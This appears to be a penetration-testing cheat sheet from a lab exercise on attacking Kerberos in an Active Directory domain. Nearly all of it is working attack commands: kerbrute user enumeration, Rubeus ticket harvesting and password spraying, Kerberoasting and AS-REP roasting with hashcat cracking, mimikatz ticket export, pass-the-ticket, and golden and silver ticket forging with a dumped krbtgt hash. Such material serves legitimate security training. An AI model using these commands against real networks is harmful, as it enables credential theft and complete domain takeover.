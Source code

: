 # Attacking Kerberos

## Enumeration with Kerbrute

{% hint style="info" %}
Make sure to have added the domain to the /etc/hosts file
{% endhint %}

```bash
/home/kali/go/bin/kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## Harvesting & Brute-Forcing Tickets w/Rubeus

{% hint style="info" %}
You will need to already be on the target having used RDP or SSH
{% endhint %}

```powershell
# This command tells Rubeus to harvest for TGTs every 30 seconds
C:\Users\Administrator\Downloads>Rubeus.exe harvest /interval:30
```

{% hint style="info" %}
Before Password Spraying we need to add the Domain to the Windows Hosts file
{% endhint %}

```powershell
# Adding Domain to the Windows Hosts file
echo 10.10.171.128 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
# This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 
Rubeus.exe brute /password:Password1 /noticket
```

## Kerberoasting w/ Rubeus & Impacket

### Method 1 - Rubeus

```powershell
Rubeus.exe kerberoast
# Crack any found hashes
head http-hash.txt
$krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLER-1/HTTPService.CONTROLLER.local:302...
hashcat -m 13100 -a 0 http-hash.txt Pass.txt
```

### Method 2 - Impacket

```bash
python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.199.11 -request
# Crack any found hashes
head sql-hash.txt
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:301...
hashcat -m 13100 -a 0 sql-hash.txt Pass.tx
```

## AS-REP Roasting w/ Rubeus

```powershell
# Again from the target Windows machine
Rubeus.exe asreproast
# Crack the found hashes with Hashcat
head admin2-hash.txt
$krb5asrep$Admin2@CONTROLLER.local:167...
# Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User...
head admin2-hash.txt
$krb5asrep$23$Admin2@CONTROLLER.local:167...
hashcat -m 18200 -a 0 admin2-hash.txt Pass.txt
```

## Pass the Ticket w/ mimikatz

```bash
mimikatz.exe  # Run mimikatz
privilege::debug  # Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
sekurlsa::tickets /export  # this will export all of the .kirbi tickets into the directory that you are currently in
```

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like: `[0;52151]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi`

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

```bash
# From Mimikatz
kerberos::ptt <ticket>  # Syntax
kerberos::ptt [0;52151]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
# From regular terminal
klist  # Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.
dir \\10.10.137.54\admin$  # Verify by checking admin share
```

## Golden/Silver Ticket Attacks w/ mimikatz

```bash
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt  # This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
# Create a Golden/Silver Ticket
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:  # syntax
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
# Use the Golden/Silver Ticket to access other machines
misc::cmd  # this will open a new elevated command prompt with the given ticket in mimikatz.
```

Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.

```bash
lsadump::lsa /inject /name:sqlservice # Get the SQLService NTLM Hash 
lsadump::lsa /inject /name:Administrator  # Get the Administrator NTLM Hash
```
